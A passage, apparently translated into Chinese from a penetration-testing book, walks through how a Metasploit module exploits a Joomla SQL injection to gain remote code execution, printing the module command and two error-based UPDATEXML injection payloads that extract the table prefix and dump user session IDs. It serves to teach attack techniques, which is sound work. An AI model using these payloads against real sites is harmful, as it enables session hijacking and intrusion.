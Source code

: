 一旦我们有了关于可用漏洞利用、插件和版本号的信息，我们就可以继续进行漏洞利用过程。

# 使用 Metasploit 开发 Joomla

一旦完成所有枚举和版本检测，就到了利用漏洞的时候了。在本节中，我们将介绍利用 Joomla 的一些方法。第一个是 Joomla 中应用的著名 SQL 注入漏洞，用于获得**远程代码执行**（**RCE**）。Metasploit 模块可用于此目的，我们可以通过执行`use exploit/unix/webapp/joomla_comfields_sqli_rce`命令来使用它，如以下屏幕截图所示：

![](assets/d800eb99-cc46-4f88-888e-e82771c15cfd.png)

在运行漏洞利用之前，让我们看看它是如何工作的。

# 开发是如何工作的

将以下 SQL 查询发送到服务器，服务器返回表名前缀的 Base64 编码值：

![](assets/175502cd-5b6a-477e-860a-0e6eade8e1d6.png)

这可以看出如下几点：

```
(UPDATEXML(2170,CONCAT(0x2e,0x#{start_h},(SELECT MID((IFNULL(CAST(TO_BASE64(table_name) AS CHAR),0x20)),1,22) FROM information_schema.tables order by update_time DESC LIMIT 1),0x#{fin_h}),4879))
```

发送到 web 服务器的请求的屏幕截图如下所示：

![](assets/33683472-0583-44e1-821d-074d99fd1c4d.png)

web 服务器返回表名前缀的 Base64 编码值，如下所示，介于`ABC`之间：

![](assets/9d256823-36e9-4d9c-8fc9-284a588ff85b.png)

以下屏幕截图显示了用于转储用户会话的 SQL 查询：

![](assets/aa19bb5a-5181-4a86-baf9-140f996e7ce7.png)

具体情况如下：

```
(UPDATEXML(2170,CONCAT(0x2e,0x414243,(SELECT MID(session_id,1,42) FROM ntnsi_session where userid!=0 LIMIT 1),0x414243),4879))
```

使用`send_request_cgi()`方法发送请求。服务器将给出一个`Internal Server Error`错误（代码`500`，但我们可以使用十六进制值（换句话说，`#{start_h}`和`#{fin_h}`）作为输出的正则表达式来查找会话。以下屏幕截图显示了在十六进制值之间查找会话的代码：

![](assets/722f98bd-9f1f-45aa-bae1-d37bebb5b1f0.png)

以下屏幕截图显示了发送到服务器以转储会话信息的 SQL 查询：

![](assets/410b4f1a-403d-4459-a341-f7ea5d58b63c.png)

以下屏幕截图显示了 web 服务器的响应，显示了用户的会话：
